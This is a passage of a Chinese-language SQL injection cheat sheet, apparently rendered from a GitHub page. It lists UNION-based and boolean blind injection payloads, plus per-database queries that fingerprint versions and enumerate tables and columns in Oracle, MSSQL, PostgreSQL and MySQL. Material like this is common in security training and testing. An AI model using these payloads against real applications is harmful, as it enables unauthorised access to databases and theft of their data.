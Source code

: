 利用联合查询
> ' UNION SELECT NULL --
> ' ORDER BY 1 --

*若无法查询则说明目标为 Oracel数据库 ' UNION SELECT \* FROM DUAL-- *

### 判断数据库类型

>甲骨文&emsp;&emsp;&emsp;&emsp;SELECT banner FROM v\$version
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT version FROM v\$instance
>微软&emsp;&emsp;&emsp;&emsp;&emsp;SELECT @@version
>PostgreSQL&emsp;&emsp;SELECT version()
>MySQL&emsp;&emsp;&emsp;&emsp;SELECT @@version

### 判断数据库内容

>甲骨文&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM all_tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
>微软&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
>PostgreSQL&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
>MySQL&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.tables
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;SELECT \* FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

**备注**

>--字符串连接--
>Oracle&emsp;&emsp;&emsp;&emsp;'foo'||'bar'
>Microsoft&emsp;&emsp;&emsp;'foo'+'bar'
>PostgreSQL&emsp;&emsp;'foo'||'bar'
>MySQL&emsp;&emsp;&emsp;&emsp;'foo' 'bar' [Note the space between the two strings]
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;CONCAT('foo','bar')
>--从具有指定长度的指定偏移量中提取字符串的一部分--
>甲骨文&emsp;&emsp;&emsp;&emsp;SUBSTR('foobar', 4, 2)
>微软&emsp;&emsp;&emsp;&emsp;&emsp;SUBSTRING('foobar', 4, 2)
>PostgreSQL&emsp;&emsp;SUBSTRING('foobar', 4, 2)
>MySQL&emsp;&emsp;&emsp;&emsp;SUBSTRING('foobar', 4, 2)

## SQL盲注

### 触发条件响应SQL盲注

#### 判断是否存在注入

利用 ' / " 进行模糊测试
在以条件注入判断其是否存在注入

> 'AND 1=1 -- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;TURE 返回成功页面
> 'AND 1=0 -- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;FASE 未能返回成功页面 
